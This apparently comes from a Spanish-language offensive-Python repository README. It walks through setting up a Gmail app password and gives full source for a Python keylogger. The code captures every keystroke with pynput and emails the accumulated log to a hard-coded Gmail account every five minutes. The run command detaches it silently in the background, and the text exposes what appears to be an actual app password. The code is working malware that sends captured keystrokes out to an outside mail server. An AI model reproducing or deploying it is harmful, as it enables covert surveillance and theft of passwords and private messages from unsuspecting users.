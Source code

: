 # Requisitos
- Para empezar debes tener una cuenta de gmail y crear una contraseña de aplicación, luego instalar pynput.
```bash
pip3 install pynput
```

- Acceder a https://myaccount.google.com/apppasswords para crear contraseña de aplicación para tu cuenta google
![Pasted image 20240628130101](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/e7938d60-c808-4fd0-b098-24722f5397b8)

- Una vez entres la tendrás activada (yxki jwbt ebfu khvc) la introduces sin espacios.
- Ejecución:
```bash
python3 main.py &> /dev/null & disown
```

# keylogger.py
```python
#! /usr/bin/env python3
import threading
import pynput.keyboard
import smtplib
from email.mime.text import MIMEText


class Keylogger:
	def __init__(self):
		self.log = ""
		self.request_shutdown = False
		self.timer = None
		self.is_first_run = True

	def pressed_key(self, key):
		try:
			self.log += str(key.char)	
		except AttributeError:
			special_keys = {key.space: " ", key.backspace:" Backspace ", key.enter: " Enter ", key.shift:" Shift ", key.alt:" Alt ", key.ctrl:" Ctrl ", key.alt:" Alt "}
			self.log += special_keys.get(key, f" {str(key)} ")
		# print(self.log)
	
	def send_email(self,subject, body, sender, recipients, password):
	    msg = MIMEText(body)
	    msg['Subject'] = subject
	    msg['From'] = sender
	    msg['To'] = ', '.join(recipients)
	    
	    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
	       smtp_server.login(sender, password)
	       smtp_server.sendmail(sender, recipients, msg.as_string())
	    print(colored(f"\n[+] Email sent Successfully!\n", yellow))

	def report(self):
		email_body = "[+] El keylogger se ha iniciado exitosamente" if self.is_first_run else self.log
		self.send_email("Keylogger Report", email_body, "email@gmail.com", ["email@gmail.com"], "yxkijwbtebfukhvc")
		self.log = ""

		if self.is_first_run:
			self.is_first_run = False

		if not self.request_shutdown:
			self.timer = threading.Timer(300, self.report)
			self.timer.start()

	def shutdown(self):
		self.request_shutdown = True
		if self.timer:
			self.timer.cancel()


	def start(self):
		keyboard_listener = pynput.keyboard.Listener(on_press=self.pressed_key)
		
		with keyboard_listener:
			self.report()
			keyboard_listener.join()



```

# main.py
```python
#!/usr/bin/env python3
import signal
import sys
from termcolor import colored
from keylogger import Keylogger

def def_handler(sig, frame):
	print(colored(f"\n[!] Saliendo...\n", 'red'))
	my_keylogger.shutdown()
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
	my_keylogger = Keylogger()
	my_keylogger.start()
```
